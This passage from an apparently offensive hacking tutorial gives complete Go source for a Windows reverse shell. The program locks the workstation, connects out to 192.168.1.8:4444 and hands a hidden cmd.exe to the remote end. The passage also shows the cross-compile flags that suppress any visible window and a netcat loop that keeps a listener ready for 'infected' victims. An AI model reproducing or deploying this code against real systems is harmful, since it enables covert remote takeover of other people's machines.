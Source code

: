 **NOTE:** You can use any name you want for your variables as long as you’re consistent throughout your code (i.e., `cloak`, `dagger`, and `socket`).
```go
package main

import (
    "net"
    "os/exec"
    "syscall"
)

func main() {
    cloak := exec.Command("rundll32.exe", "user32.dll,", "LockWorkStation")
    socket, _ := net.Dial("tcp", "192.168.1.8:4444")
    dagger := exec.Command("cmd.exe")
    dagger.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
    dagger.Stdin = socket
    dagger.Stdout = socket
    dagger.Stderr = socket

    cloak.Run()
    dagger.Run()
}
```
To compile our source code, we could use the default values of our environment variables. Although, since we developed this exploit for a Microsoft Windows machine, we must temporarily modify them to match the platform and CPU architecture of our target. Normally, cross-compilation would be as simple as this yet, we have one more step to take.

The Go compiler provides two options for Microsoft Windows. You can go with the default option of a “console” program or ask for a “Windows GUI” program. If you chose “console,” a pop-up window will show regardless of the additional precautions we took in our source code. If you chose “Windows GUI,” these precautions will be recognized and therefore our program will run in the background with no pop-up. This nuance is addressed by Go’s *linker*. A **linker** is “responsible for incorporating the right software during compilation.” To dynamically inform the Go linker we want a “Windows GUI” program, we must invoke the `-ldflags` parameter and supply `-H=windowsgui` as our input.

Execute the command sentence below to compile the source code of our second exploit.
```bash
# how to cross-compile Go source code
env GOOS=windows GOARCH=386 go build -ldflags -H=windowsgui hackmeslow.go
```

![hackmeslow.gif]({{ site.url }}{{ site.baseurl }}/_assets/Hasty/hackmeslow.gif)

## How to Keep a Netcat Listener Alive Forever
Netcat is a tool for reading and writing to network sockets. We’re going to need it whenever an infected machine “reports for duty.” Yet, it can be tedious to repeatedly type the syntax for it everytime we exit a network connection with our victim. So we’re going to leverage a one-line script to continously invoke Netcat on our behalf whenever it dies (execute the command sentence below).
```bash
# how to keep a Netcat listener alive forever
while true; do nc -nvlp 4444; done
```
